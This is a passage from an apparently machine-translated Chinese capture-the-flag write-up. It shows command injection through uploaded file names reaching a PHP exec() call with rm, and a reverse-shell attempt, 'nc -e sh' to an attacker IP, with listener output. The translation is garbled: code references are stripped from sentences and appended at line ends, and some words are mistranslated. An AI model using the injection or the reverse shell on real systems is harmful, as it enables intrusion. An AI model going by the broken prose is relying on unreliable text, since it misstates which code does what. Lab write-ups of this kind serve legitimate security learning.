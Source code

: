 我立即被一条线所吸引：

    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    

如果我能控制 或 ，则有明显的代码注入。`$path``$value`

`$path`静态设置在文件顶部。但事实并非如此。我会再次打开一个外壳，看看发生了什么。它首先读取目录中的所有文件，并使用 选择不以 开头的文件。我可以在我的目录中使用站点源和测试文件执行类似操作：`$value``php``uploads``preg_grep``.`

    root@kali# ls -a
    .  ..  index.php  lib.php  photos.php  .test  upload.php
    

    php > $files = preg_grep('/^([^.])/', scandir('.')); print_r($files);
    Array
    (
        [5] => index.php
        [6] => lib.php
        [7] => photos.php
        [8] => upload.php
    )
    

现在有一个数字存储为，文件名存储为 .`foreach``$files``$key``$value`

`$value`传递给 ，并将结果 传递给 ：`getnameCheck()``$name``$value``check_ip()`

    list ($name,$ext) = getnameCheck($value);
    $check = check_ip($name,$value);
    

如果为 false，代码将到达目标行。`$check[0]`

在 中，只是运行通过 ，它使用[FILTER\_VALIDATE\_IP](https://www.w3schools.com/php/filter_validate_ip.asp)来检查有效的 IP 地址。与上面完全相同，将是第一个之前的任何东西。`lib.php``check_ip``$name``filter_var``getnameCheck()``getnameUpload()``$name``.`

这意味着我在目录中写入的任何未命名为有效IP的文件都将传递到我可以注入的部分。`uploads`

### 外壳问题

这个盒子上的贝壳我们有点烦人。这是一个很好的例子，记住在尝试让其他用户的进程运行它之前，总是尝试自己运行shell。一旦我确定我有一个shell，当我运行它时，我可以对 privesc 使用相同的命令。

例如，我想让古利跑步。这应该有效，就像我的道路一样。但它失败了：`nc -e sh 10.10.14.7 443``sh`

    bash-4.2$ nc -e sh 10.10.14.7 443                                           
    exec: No such file or directory
    

在我的听众上，我看到连接，然后它立即死亡：

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:57708.
    root@kali#
    